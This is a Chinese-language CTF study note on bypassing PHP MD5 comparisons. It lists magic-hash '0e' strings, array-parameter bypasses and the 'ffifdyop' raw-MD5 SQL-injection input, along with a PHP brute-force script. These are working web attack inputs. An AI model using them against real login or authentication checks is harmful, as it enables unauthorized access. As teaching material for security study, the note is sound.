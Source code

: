 # MD5绕过总结

[TOC]

---

```php
md5(string,raw)
```

| 参数   | 描述                                                         |
| :----- | ------------------------------------------------------------ |
| string | 必需。要计算的字符串。                                       |
| raw    | 可选。默认不写为FALSE：32位16进制的字符串。TRUE：16位原始二进制格式的字符串 |

## 基本方法

小总结：

1. MD5弱类型比较（俩等号的）

**数组绕过**

2. MD5强类型比较（三等号的）

**数组绕过**

3. 自己等于md5加密后的自己

**科学计数法绕过**

### `==`类型

#### 方法一

```php
<?php 
$v1 = $_GET['v1'];
$v2 = $_GET['v2'];

if (isset($v1) and isset($v2)) {
    if ($v1 != $v2 and md5($v1) == md5($v2)) {
        die("success!");
    }
}
show_source(__FILE__);
?>
```

审计过后得知，需要满足`v1`不等于`v2`，同时两个变量的md5值相同

由于这里使用的是 `==` 故而可能存在弱类型转换，假设 `$v1` 进行 md5 加密之后得到：`0e*************`，`$v2` 进行 md5 加密之后得到：`0e*************` 。

那么经过 `==` 比较，两者是相等的，因为 PHP 会将其看做是科学计数法。0 的任何次方都得 0，故而就是 `0` == `0`



列举一些例子：

```bash
$md5 						md5($md5)
s878926199a					0e545993274517709034328855841020
s155964671a					0e342768416822451524974117254469
s214587387a					0e848240448830537924465865611904
s214587387a					0e848240448830537924465865611904
s878926199a					0e545993274517709034328855841020
s1091221200a				0e940624217856561557816327384675
s1885207154a				0e509367213418206700842008763514
s1502113478a				0e861580163291561247404381396064
s1885207154a				0e509367213418206700842008763514
s1836677006a				0e481036490867661113260034900752
s155964671a					0e342768416822451524974117254469
s1184209335a				0e072485820392773389523109082030
s1665632922a				0e731198061491163073197128363787
s1502113478a				0e861580163291561247404381396064
s1836677006a				0e481036490867661113260034900752
s1091221200a				0e940624217856561557816327384675
s155964671a					0e342768416822451524974117254469
s1502113478a				0e861580163291561247404381396064
s155964671a					0e342768416822451524974117254469
s1665632922a				0e731198061491163073197128363787
s155964671a					0e342768416822451524974117254469
s1091221200a				0e940624217856561557816327384675
s1836677006a				0e481036490867661113260034900752
s1885207154a				0e509367213418206700842008763514
s532378020a					0e220463095855511507588041205815
s878926199a					0e545993274517709034328855841020
s1091221200a				0e940624217856561557816327384675
s214587387a					0e848240448830537924465865611904
s1502113478a				0e861580163291561247404381396064
s1091221200a				0e940624217856561557816327384675
s1665632922a				0e731198061491163073197128363787
s1885207154a				0e509367213418206700842008763514
s1836677006a				0e481036490867661113260034900752
s1665632922a				0e731198061491163073197128363787
s878926199a					0e545993274517709034328855841020
QNKCDZO						0e830400451993494058024219903391
```



#### 方法二 ---数组绕过

```http
v1[]= 1&v2[]= 2
```

> md5()或者sha1()之类的函数计算的是一个字符串的哈希值，对于数组则返回false，如果`$str1`和`$str2`都是数组则双双返回FALSE, 两个FALSE相等得以绕过



### `===`强比较

>  `===` 强等于，先比较其数据类型再比较其值，不会进行类型转换。故而例题 - 1 的做法，在这里就不生效了。

直接采用传入数组的方式





### 万能密码

> **MySQL的一个特性：**
>
> 在mysql里面，在用作布尔型判断时，以1开头的字符串会被当做整型数。

要注意的是这种情况是必须要有单引号括起来的，比如password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1 ，也就相当于password=‘xxx’ or true，所以返回值就是true。

当然在我后来测试中发现，不只是1开头，只要是数字开头都是可以的。
当然如果只有数字的话，就不需要单引号，比如password=‘xxx’ or 1，那么返回值也是true。（xxx指代任意字符）

```plain
select * from `admin` where password=''or'1abcdefg'    --->  True
select * from `admin` where password=''or'0abcdefg'    --->  False
select * from `admin` where password=''or'1'           --->  True
select * from `admin` where password=''or'2'           --->  True
select * from `admin` where password=''or'0'           --->  False
```

```php
<?php 
for ($i = 0;;) { 
 for ($c = 0; $c < 1000000; $c++, $i++)
  if (stripos(md5($i, true), '\'or\'') !== false)
   echo "\nmd5($i) = " . md5($i, true) . "\n";
 echo ".";
}
?>
```

这里提供一个最常用的：

***ffifdyop***

该字符串md5加密后若md5()的参数为True时会返回 **'or’6<trash>** (<trash>其实就是一些乱码和不可见字符，这里只要第一位是非零数字即可被判定为True，后面的<trash>会在MySQL将其转换成整型比较时丢掉)

所以如果这里我们输入ffifdyop，后端的SQL语句会变成：

```plain
select * from `admin` where password=''or'6<trash>'           --->  True
```

## 资源

CTF中的弱比较和MD5绕过：https://www.qwesec.com/2024/02/ctfweb-md5.html